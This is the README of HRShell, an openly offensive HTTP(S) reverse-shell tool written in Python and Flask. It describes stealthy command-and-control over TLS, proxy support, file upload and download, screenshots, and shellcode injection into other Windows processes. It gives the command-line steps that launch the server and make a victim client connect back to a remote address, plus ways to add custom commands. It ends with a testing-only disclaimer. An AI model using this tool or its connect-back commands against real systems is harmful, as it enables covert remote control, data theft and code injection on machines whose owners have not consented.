


##### HRShell: An advanced HTTP(S) Reverse Shell built with Flask
[](https://github.com/chrispetrou/HRShell/blob/master/LICENSE) 
[](https://www.python.org/)
[](https://palletsprojects.com/p/flask/)
 
[](https://snyk.io//test/github/chrispetrou/HRShell?targetFile=requirements.txt)

* * *



__HRShell__ is an HTTPS/HTTP reverse shell built with flask. It's compatible with __python 2.x/3.x__ and has been successfully tested on:
*    Linux ubuntu 18.04 LTS
*    macOS Mojave
*    Windows 7/10

### 🎉 Features

*   It's stealthy
*   __TLS__ support 🔑
    -   Either using _on-the-fly_ certificates or
    -   By specifying a cert/key pair (_more details below..._)
*   Proxy support on client.
*   Directory navigation (`cd` command and variants).
*   `download/upload/screenshot` commands available.
*   shellcode injection 💉 (_for the time it is available only for windows x86 systems_)
    -   Either shellcode injection into another process by specifying its PID
    -   or shellcode injection in the current running process
*   Pipelining (`|`) & chained commands (`;`) are supported
*   Support for every non-interactive (_like gdb, top etc..._) command
*   Server is both HTTP & HTTPS capable.
*   It comes with two built-in servers 🌐 so far... _flask built-in_ & _tornado-WSGI_ while it's also compatible with other production servers like [`gunicorn`](http://gunicorn.org/) and [`Nginx`](https://www.nginx.com/).
*   Both `server.py` and `client.py` are easily extensible.
*   Since the most functionality comes from server's endpoint-design it's very easy to write a client in any other language _e.g. java, GO etc..._

### Details
* * *

#### TLS 🔑

__Server-side:__
Unless `--http` option is specified, by default `server.py` is HTTPS using _on-the-fly_ certificates, since on-the-fly certificates are a built-in flask-feature. But if `-s tornado` option is specified in order to make the server use TLS, a `--cert` and a `--key` option must be specified like so:

```
python server.py -s tornado --cert /path/cert.pem --key /path/key.pem
```

Either "real" certificates can be used or another way to generate a cert/key pair is using [openssl](https://www.openssl.org/) like so:

```
openssl req -x509 -newkey rsa:4096 -nodes -out cert.pem -keyout key.pem -days 365
```

A cert/key pair can also be used with the flask-server:
```
python server.py --cert /path/cert.pem --key /path/key.pem
```

> ⚠️ If the server is using TLS, then by design the client can't use `http://...` to connect to the server, but must explicitly use `https` instead.

__Client-side:__
By default client's SSL verification is disabled, unless:
*   either the `--cert` parameter is specified e.g.:
    ```
    python client.py -s https://192.168.10.7:5000 --cert /path/cert.pem
    ```
*   or the `CERT` variable, instead of the default `None` value is set beforehand with a valid certificate e.g.:
    ```python
    CERT = """
    -----BEGIN CERTIFICATE-----
    MIIBoDCCAUoCAQAwDQYJKoZIhvcNAQEEBQAwYzELMAkGA1UEBhMCQVUxEzARBgNV
    BAgTClF1ZWVuc2xhbmQxGjAYBgNVBAoTEUNyeXB0U29mdCBQdHkgTHRkMSMwIQYD
    VQQDExpTZXJ2ZXIgdGVzdCBjZXJ0ICg1MTIgYml0KTAeFw05NzA5MDkwMzQxMjZa
    ...
    -----END CERTIFICATE-----
    """
    ```

> ⚠️ When `--cert/-c` is used on client-side, then it is strongly suggested that an absolute path to the certificate is given. The reason to that is that if the server send a _e.g._ `cd ../` command then because the client will actually execute this command and will change directory, if the absolute path to the certificate is not provided the connection will drop.

#### Available commands:

Special commands:
```
upload <file or path-to-file>: uploads a file to the client
download <file or path-to-file>: downloads a file from the client
screenshot: downloads a screenshot from the client and then deletes it
migrate <PID>: attempts to inject shellcode on the process with the specific PID
inject shellcode: injects shellcode into current process
clear: clears the screen (it's the same for both unix and windows systems)
exit: closes the connection with the client
```

Any other command is supported if it's __not__ interactive like _e.g. gdb, top etc..._ Also by typing `python server.py -h` or `python client.py -h` you can get information the server and client available arguments.

__Note:__ If a client is connected with the server and we want to terminate the server, before press <kbd>CTRL</kbd>+<kbd>C</kbd>, we have to close the connection using the `exit` command.

#### Shellcode injection

> ⚠️ For now shellcode injection can be performed only in x86 windows systems.



##### Notes

*   A basic prerequisite for the injection to work is to have set `shellcode` variable, on client.py, to a valid shellcode.
*   In case the injection happens on a process, then process-permissions play a very important role. It's not always possible to inject on any process due to lack of appropriate privileges.
*    When the injection happens on the current process which in fact is the client.py, then the HTTP(S) will probably hang if the injection is successful.

#### Creating custom commands
__Client-side:__

In order to create a _custom_ command, generally:
*   a regex rule that describes the command must be defined on client-side
*   the code to handle that command must be added as an `elif` statement also on client-side.

__Server-side:__

If the command demands the existence of a new-endpoint on server-side, then:
*   to define the endpoint:
    ```python
    @app.route('/custom_endpoint/<arg>')
    def custom_endpoint(arg):
        """
        documentation if needed
        """
        ...
        return ...
    ```
*   then edit `handleGET()` to redirect the client to that endpoint:
    ```python
    @app.route('/')
    def handleGET():
        ...
        return redirect(url_for('custom_endpoint',
            arg=...)
            )
    ```
*   do the appropriate edits in `handlePOST()` to handle the presentation of the results.

#### Script-Arguments

Both scripts (_server.py_ and _client.py_) can be customized through arguments:

__server.py__
```
$ python server.py -h
usage: server.py [-h] [-s] [-c] [--host] [-p] [--http] [--cert] [--key]

server.py: An HTTP(S) reverse-shell server with advanced features.

arguments:
  -h, --help      show this help message and exit
  -s , --server   Specify the HTTP(S) server to use (default: flask).
  -c , --client   Accept connections only from the specified client/IP.
  --host          Specify the IP to use (default: 0.0.0.0).
  -p , --port     Specify a port to use (default: 5000).
  --http          Disable TLS and use HTTP instead.
  --cert          Specify a certificate to use (default: None).
  --key           Specify the corresponding private key to use (default: None).
```
__client.py__
```
$ python client.py -h
usage: client.py [-h] [-s] [-c] [-p]

client.py: An HTTP(S) client with advanced features.

arguments:
  -h, --help      show this help message and exit
  -s , --server   Specify an HTTP(S) server to connect to.
  -c , --cert     Specify a certificate to use.
  -p , --proxy    Specify a proxy to use [form: host:port]
```

### Requirements:

**Note:** To install the server-requirements:

`pip install -r requirements.txt --upgrade --user`

#### TODO
- [ ] Add more commands and features.
- [ ] Fix potential bugs.

#### :thought_balloon: Contributions & Feedback

Feedback and contributions are welcome. If you find any bug or have a feature request feel free to open an issue, and as soon as I review it I'll try to fix it.

### Disclaimer
>This tool is only for testing and academic purposes and can only be used where strict consent has been given. Do not use it for illegal purposes! It is the end user’s responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this tool and software in general.

### Credits

*   The HRShell logo is made with [fontmeme.com](https://fontmeme.com/graffiti-fonts/)!

### License

This project is licensed under the GPLv3 License - see the [LICENSE](LICENSE) file for details.